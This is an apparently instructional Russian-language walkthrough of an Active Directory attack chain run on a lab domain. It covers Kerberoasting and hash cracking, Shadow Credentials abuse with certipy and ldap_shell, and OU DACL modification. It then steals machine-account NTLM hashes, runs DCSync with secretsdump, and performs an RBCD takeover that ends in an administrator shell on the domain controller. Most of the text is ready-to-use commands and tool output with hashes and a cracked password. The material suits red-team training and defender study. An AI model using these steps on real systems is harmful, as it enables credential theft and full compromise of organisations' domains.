




## Цепочка с керберостингом

Чтобы атака сработала, подправим наш стенд с точки зрения админов - установим быстро подбираемый пароль для одного из интересных аккаунтов:


Далее запускаем кербероастинг из импакета:
```
GetUserSPNs.py org.local/user:'Gfhjkm123' -outputfile krb.out -dc-ip 10.128.0.8
```
Получаем много TGS для SPN на пользовательских учетках (импакет отбирает именно User учетки, чтобы не тратить время на подбор паролей машинных):

Не будем тратить время на перебор для всех и отберем только целевые:
```
grep -E "(CARTER_BARRON|SANFORD_KIDD|EDWARD_GIBBS|JACKIE_NORTON)" krb.out
```
Для '$krb5tgs$23$' выбираем хеш-тип 13100 (```hashcat.exe --help | findstr /C:"kerberos" /I```):
```
hashcat.exe -a0 -m 13100 hash.txt rockyou_l2.txt
```
Получаем пас:
```
$krb5tgs$23$*SANFORD_KIDD$ORG.LOCAL$org.local/SANFORD_KIDD*$34db2e383fd619c83e46a4889a485311$033a14c49c0d1806904cc6e52b8c350f060590c95c7ab2aaade8ed21ed2b863f0c1c6d727e3875f5ba9c2d79baabe26b08ef4e27393b7d0acd44c43448850ad873397a94bff5629baf5a997036e604e6d57b716f03d9bb7c4b685b531e2b2ca9312e84a4b36726cc192773f9e9d184ecbee2ba73e94d2c9ae41f675b98188245a741b1012e087a09d99f07d5d8fa1c3166c351da802e35ab0377ab7d2bd8f94753fb20df2b77532f659e932b817bdfc69e90290c35d0bde10055739414fa63b9cb108fbe3ee2ea09a57d68499b8e0ccf3f1cb16d5810d2857020a66b3f7fded19ddfb85bfa7ddf50ec96035c68abda0dc028eb910391480c58ad7d4eb0145b86cd89a40e23c9e1b297f4023b838ad75ca7bee74344f1f3d9e6ab33bf8152b352c1833da039b5e59146778fd550fc044aa20bbf3d4bdbc6a4ddb2d6ba4b5cdfd8ad0ac5c04cb249351d0a1520d517bad956667f4a80ac549c7b976728ec3f7f11ff50f0572dd776931721d96b5ec2553200a57bcaaa8b26e123afb77228e5bf8efaa1ea2294cc4aaf5c14b0c289819c362706ddf86d06a74bacad40183152e08ae33b4582d5835279924c53064a0a6e761fffac5150c146fc3a0014c6752bf86ed194f3b4853d1ff2a7c4b3dbe6d437fd41905bda80640bd458616b5eb277df3b8ccf8b8073b40eac8621d4d08df7cca075cf46fcabde986c57b52f50e2c4325e47db4f6f3d183e45faabb610b12788b6f8c99096568c9cdae4ae2632dfcada69752eb8078bfa4a8600f45709272894c6d62aaec25e9f2551e5d94f7cb7d83ae49e91deb72a455cf17054675418a6728cd0edf5ec0aa85a403b37d9381b7f97882531cbef9622747d2c9236f03a14ddce27b9158a9a24e8bb1f705740e7c646b7e9892b7342ee10126016a2170f09310bc3ed1a65f2a742fb081de71e9425441bb5be5240fb4ca44b7cd60079ebf9fb02eb01cbb28626bdad094b269c59204c84bacdf969602a79ec34c13c7409d849baf6b19306fd18f8f7cade1bd86c14a1daaf0380ad9e54a9cdf634d6912c2b9db01dc60fda7c286bb20ee7b31a95d0238555a27aaf132c0ac80daa34fafa33c9db1faa7cf4d8b41aa82b013abeb30ee4637ba8442b95066ba599733d5ee972c394a4802132dd8475d29de22a82b4b94b21422a0348d89466417b1b8c9c8cb7a50bee91b3065e00d2c5498658cc59710a925c275b14bf8216b0293ef1c395b6157cae1ed0b50d829a7f0216052bd6be7d68efd8fc00e56529663fe12b4bce6d2d2b8f7d2a5086b97a712e786be5c9aac31db266926bb98bcda93b4aed5977aa0a02c0f163a5ac7af4fe748e2a77be6ec4505e7795dc83793a3827f8311ace8af574908cb290bba1713c037b89852e76b92a8b3d9d42881daf575b763ae0486f2ad5556711da6823ebf84a988f1868f2560f365d007d6308d8a19c9a1639531820224b6b4b61553ce00f30305257f14c98b50c95bf6ee2da:P@ssw0rd
```
Возвращаемся к цепочке:


## Первый шаг - GenericAll на аккаунт пользователя
Варианты:
- Shadow Credentials (для доменов с поддержкой msDS-KeyCredentialLink, т.е. где KDC >= Windows Server 2016)
- Установить dontreqpreauth для AS-REP Roasting, затем установить обратно
- Создать SPN и использовать его для Kerberoasting, затем удалить
- Переустановить пароль
- Script Path или msTSInitialProgram, но будет запускаться только при интерактивном входе пользователя

У нас 2016+ DC, можем легко использовать Shadow Credentials с помощью ldap_shell или certipy или whisker.
```
# certipy shadow auto -username SANFORD_KIDD@org.local -p P@ssw0rd -account CECILIA_COLE -dc-ip 10.128.0.8
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'CECILIA_COLE'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '179086e5-df65-e63c-f2d2-d015b1f31309'
[*] Adding Key Credential with device ID '179086e5-df65-e63c-f2d2-d015b1f31309' to the Key Credentials for 'CECILIA_COLE'
[*] Successfully added Key Credential with device ID '179086e5-df65-e63c-f2d2-d015b1f31309' to the Key Credentials for 'CECILIA_COLE'
[*] Authenticating as 'CECILIA_COLE' with the certificate
[*] Using principal: cecilia_cole@org.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'cecilia_cole.ccache'
[*] Trying to retrieve NT hash for 'cecilia_cole'
[*] Restoring the old Key Credentials for 'CECILIA_COLE'
[*] Successfully restored the old Key Credentials for 'CECILIA_COLE'
[*] NT hash for 'CECILIA_COLE': ac899ed00cb747492a4a001dab552d28
```

## Следующий шаг - GenericAll на OU

GenericAll на OU позволяет создать ACE на эту OU, которая будет наследована на вложенные объекты. Т.е. дать себе любые права на вложенные объекты.  
Проведение атаки через PowerShell можно почитать тут https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall  
Также выполнить можно через модифицированный ldap_shell (на 09.2022 оригинальный ldap_shell не умеет dacl_modify на OU):
```
ldap_shell org.local/CECILIA_COLE -hashes 'aad3b435b51404eeaad3b435b51404ee:ac899ed00cb747492a4a001dab552d28' -dc-ip 10.128.0.8
# dacl_modify B3AB46B6-B410-458F-A65A-7A46A86C3578 CECILIA_COLE add GenericAll
[INFO] Found Target DN: OU=T2-Devices,OU=Tier 2,OU=Admin,DC=org,DC=local
[INFO] Found Grantee DN: CN=CECILIA_COLE,OU=ServiceAccounts,OU=AZR,OU=Stage,DC=org,DC=local
[INFO] Grantee SID: S-1-5-21-1277218239-411149427-4166067275-1112
[INFO] DACL modified successfully!
```
Затем пробуем получить NTLM-хеш вложенной в OU учетной записи GUS_BERGER:
```
# get_ntlm GUS_BERGER
[INFO] Target user found: GUS_BERGER
[INFO] Generating certificate
[INFO] KeyCredential generated with DeviceID: 31e84cca-8339-6e10-51b9-f55be8e30995
[ERROR] Could not modify object, the server reports insufficient rights: 00002098: SecErr: DSID-03151469, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```
Это не получается, потому что по умолчанию на учетные записи Domain Admins, включая GUS_BERGER, отключено наследование. Если администратор включит его, то доступ работает:
```
# get_ntlm GUS_BERGER
[INFO] Target user found: GUS_BERGER
[INFO] Generating certificate
[INFO] KeyCredential generated with DeviceID: f36b3c64-0afb-5b5e-8956-1a4f730426b3
[INFO] Requesting TGT
[INFO] Requesting ticket to self with PAC
[+] NTLM hash: 6166144dac7e360eee16ca14d96d5b02
[INFO] Remove DeviceID from msDS-KeyCredentialLink attribute for user2
```
Однако такое встречается редко, поэтому рассмотрим другой вектор.

## Ищем новый путь

Удаляем стрелку, которую не удалось реализовать, из BloodHound и перестраиваем "Shortest Paths to Domain Admins from Owned Principals". Повторяем это, пока не появится удачный путь. В данном примере это:


Этот путь совсем простой. Начнем с того, что получим NTLM-хеш для FSRWLPT1000003$ через ldap_shell:
```
ldap_shell org.local/SANFORD_KIDD:'P@ssw0rd' -dc-ip 10.128.0.8
# get_ntlm FSRWLPT1000003$
[INFO] Target user found: FSRWLPT1000003$
[INFO] Generating certificate
[INFO] KeyCredential generated with DeviceID: f61ee380-470e-1ad3-df74-663e3c4e8f91
[INFO] Requesting TGT
[INFO] Requesting ticket to self with PAC
[+] NTLM hash: 8d55c411eb14154be0ccda2e790a7e66
[INFO] Remove DeviceID from msDS-KeyCredentialLink attribute for user2
```
Затем мы можем переключить пользователя (NTLM-хеш подходит для аутентификации) и так же получить NTLM-хеш для контроллера домена TEMP-DC: 
```
# switch_user FSRWLPT1000003$
Password:
[INFO] Successfully! User SANFORD_KIDD has been changed to FSRWLPT1000003$

# get_ntlm TEMP-DC$
[INFO] Target user found: TEMP-DC$
[INFO] Generating certificate
[INFO] KeyCredential generated with DeviceID: 2f41fce4-2ae9-08e7-2e80-1dbcca9f0f2e
[INFO] Requesting TGT
[INFO] Requesting ticket to self with PAC
[+] NTLM hash: dfa1fc588730cb9f54ba29d6a14c8c73
[INFO] Remove DeviceID from msDS-KeyCredentialLink attribute for user2
```
А затем с правами на DCSync у учетной записи контроллера домена получить NTLM-хеш любого аккаунта домена, на чем компрометация домена фактически успешно завершается:
```
# secretsdump.py 'org.local/temp-dc$@10.128.0.8' -hashes ':dfa1fc588730cb9f54ba29d6a14c8c73' -just-dc-user adm
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
adm:1105:aad3b435b51404eeaad3b435b51404ee:612a84f1c9f21a69ae5f2a044cbd576f:::
[*] Kerberos keys grabbed
adm:aes256-cts-hmac-sha1-96:82da6644573b0682ccac8db9635a660aa21b03a94df1e8b4a46f28e3677c78ec
adm:aes128-cts-hmac-sha1-96:de4d267ad170c47ab3c712e4dfe4eb1b
adm:des-cbc-md5:d5575bdc83f47340
[*] Cleaning up...
```

## RBCD Takeover

Вместо получения NTLM-хеша при наличии GenericAll на учетные записи компьютеров можно провести атаку RBCD Takeover, что особенно актуально для доменов, где еще не поддерживается msDS-KeyCredentialLink, т.е. shadow creds нельзя использовать.  
Первым делом нам нужен аккаунт, который мы будем прописывать в RBCD-делегирование (msDS-AllowedToActOnBehalfOfOtherIdentity). В данном случае есть уже скомпрометированный FSRWLPT1000003$, но часто бывает нужно создать новый. Т.к. по умолчанию SeMachineAccountPrivilege (Add workstations to domain) предоставлено S-1-5-11 (Authenticated Users) и ms-DS-MachineAccountQuota = 10, рядовой пользователь домена может создать до 10 машинных учетных записей. Можно использовать, например, импакет или ldap_shell:
```
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```
*>>> When using impacket's addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of 10th of December, 2021, the SAMR method creates the account without SPNs.*
Или ldap_shell через LDAPS:
```
ldap_shell org.local/SANFORD_KIDD:'P@ssw0rd' -dc-ip 10.128.0.8 -use-ldaps
# add_computer evil-host Gfhjkm123
[INFO] Attempting to add a new computer with the name: evil-host$
[INFO] Inferred Domain DN: DC=org,DC=local
[INFO] Inferred Domain Name: org.local
[INFO] New Computer DN: CN=evil-host,CN=Computers,DC=org,DC=local
[INFO] Adding new computer with username "evil-host$" and password "Gfhjkm123" result: OK
```

С правами FSRWLPT1000003$ GenericAll на TEMP-DC$ прописываем свой хост в msDS-AllowedToActOnBehalfOfOtherIdentity атакуемой цели (TEMP-DC$):
```
ldap_shell 'org.local/FSRWLPT1000003$' -hashes 'aad3b435b51404eeaad3b435b51404ee:8d55c411eb14154be0ccda2e790a7e66' -dc-ip 10.128.0.8
# set_rbcd temp-dc$ evil-host$
[INFO] Found Target DN: CN=TEMP-DC,OU=Domain Controllers,DC=org,DC=local
[INFO] Target SID: S-1-5-21-1277218239-411149427-4166067275-1001
[INFO] Found Grantee DN: CN=evil-host,CN=Computers,DC=org,DC=local
[INFO] Grantee SID: S-1-5-21-1277218239-411149427-4166067275-1372
[INFO] Delegation rights modified successfully! evil-host$ can now impersonate users on temp-dc$ via S4U2Proxy
```

Либо можно для этой же операции использовать https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py из impacket.

Далее, будучи прописанными в RBCD в виде нашего хоста evil-host, можем от его имени запросить тикеты S4U2self+S4U2proxy на имя произвольного пользователя домена и получить с его правами доступ к произвольному SPN на атакуемом хосте TEMP-DC$ (https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py):
```
getST.py -spn cifs/temp-dc.org.local org.local/evil-host:'Gfhjkm123' -dc-ip 10.128.0.8 -impersonate Administrator
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Используем полученный тикет для доступа на контроллер домена с правами администратора и считаем домен скомпрометированным:
```
# export KRB5CCNAME=Administrator.ccache
# wmiexec.py -k -no-pass org.local/Administrator@temp-dc.org.local -shell-type powershell
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
org\administrator
```
*>>> Ошибка KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid) может свидетельствовать о неправильном имени SPN*